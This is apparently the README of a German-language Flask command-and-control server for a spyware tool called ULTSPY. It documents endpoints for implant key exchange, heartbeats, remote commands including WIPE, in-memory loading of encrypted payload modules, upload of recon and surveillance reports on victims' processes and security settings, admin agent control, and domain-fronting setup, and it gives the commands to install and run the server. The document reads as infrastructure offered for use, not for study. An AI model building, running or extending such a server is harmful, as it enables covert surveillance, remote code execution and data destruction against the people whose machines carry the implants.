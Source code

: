 # Server Component

Eine minimale Flask-Anwendung, die REST-Endpunkte für Registrierung, Kommandos und Updates bereitstellt. Neu sind Endpunkte zur Heartbeat-Verarbeitung und Kommandoverteilung.

## Key Exchange
```
POST /key_exchange
{ "uuid": "<client uuid>", "public_key": "-----BEGIN RSA PUBLIC KEY-----..." }
```
Antwort:
```
{ "aes_key": "<base64 encrypted key>" }
```

## Heartbeat
```
POST /heartbeat
{ "uuid": "<client uuid>" }
```

Der Server speichert den Zeitpunkt des letzten Heartbeats pro Client. Ist kein neuer Heartbeat innerhalb von 180 Sekunden eingegangen, wechselt der Client-Status auf **offline**.

### Client-Status
Der aktuelle Zustand kann über folgenden Endpunkt abgefragt werden:

```
GET /status/<uuid>
-> { "uuid": "<uuid>", "status": "online", "last_seen": "2025-06-04T10:00:00" }
```

## Kommandos
```
POST /command/<uuid>
{ "command": "SAFE_MODE", "parameters": {} }
```
Unterstützte Befehle sind `SAFE_MODE`, `WIPE` und `DEEP_SLEEP`. Das alte Feld `cmd` wird weiterhin akzeptiert, bevorzugt wird jedoch das JSON-Format oben. Befehle werden serverseitig geloggt und beim nächsten Abruf ausgeliefert.

```
GET /commands/<uuid>
-> { "commands": [{"command":"SAFE_MODE","parameters":{}}] }
```
Jeder Eintrag enthält das Kommando und optionale Parameter.

## Payload Delivery
```
GET /payload/<uuid>/<module>
-> { "payload": "<base64 encrypted module>" }
```
Der Server liefert verschlüsselte Module, welche der gehärtete Loader im Arbeitsspeicher entschlüsselt und lädt.

## Recon Daten
``` 
POST /recon/<uuid>
{ "data": "<base64 AES(iv+json)>" }
```
Der verschlüsselte Recon-Bericht wird gespeichert und kann zu Debug-Zwecken entschlüsselt ausgegeben werden.

## Active Surveillance Report
```
POST /surveillance_report/<uuid>
{ "data": "<base64 AES(iv+json)>" }
```
Der verschlüsselte Überwachungsbericht enthält laufende Prozesse, Autoruns und Sicherheitsinformationen.

## Admin Endpoints

Für administrative Aufgaben steht ein einfacher API-Key geschützter Zugriff zur Verfügung. Der Key wird über den HTTP-Header `X-API-KEY` übermittelt.

### Agents auflisten
```
GET /admin/agents
-> { "agents": [{"uuid": "<id>", "online": true, "last_seen": "..."}] }
```

### Logs eines Agents
```
GET /admin/logs/<uuid>
-> { "logs": [
     {"timestamp":"2025-06-05T20:00:00Z","type":"Recon","description":"Recon data","data":"{...}"},
     {"timestamp":"2025-06-05T20:01:00Z","type":"Info","description":"heartbeat"}
   ] }
```
Ein Eintrag enthält Zeitstempel (UTC), Typ des Eintrags (Recon, Surveillance, Info, Fehler usw.), eine Kurzbeschreibung und optional Rohdaten.

### Kommando pushen
```
POST /admin/command/<uuid>
{ "command": "SAFE_MODE", "parameters": {} }
```
Identisch zu `/command/<uuid>`, aber nur mit gültigem API-Key erreichbar.

## API Hardening
Alle Agent-Requests tragen ab Version 4 eine HMAC-SHA256-Signatur. Zusätzlich wird pro Aufruf ein einmaliger Nonce sowie ein Zeitstempel übertragen:

- `X-ULTSPY-Signature`
- `X-ULTSPY-Nonce`
- `X-ULTSPY-Timestamp`

Der Server verifiziert die Signatur anhand des pro Client hinterlegten AES-Schlüssels, prüft die Zeitabweichung (±60s) und lehnt doppelte Nonces ab.

```
pip install -r requirements.txt
python app.py
```

Der API-Key kann über die Umgebungsvariable `ADMIN_API_KEY` gesetzt werden (Standard: `changeme`).

## Domain Fronting Vorbereitung

In `config.json` lässt sich eine Liste erlaubter Hostnamen konfigurieren. Bei eingehenden Anfragen prüft der Server den `Host`-Header und lehnt unbekannte Hosts ab. Über `/config/targets` kann die aktuelle Routing-Tabelle abgefragt werden.
Beispiel `config.json`:
```json
{
  "allowed_hosts": ["localhost", "example.cloudfront.net"]
}
```
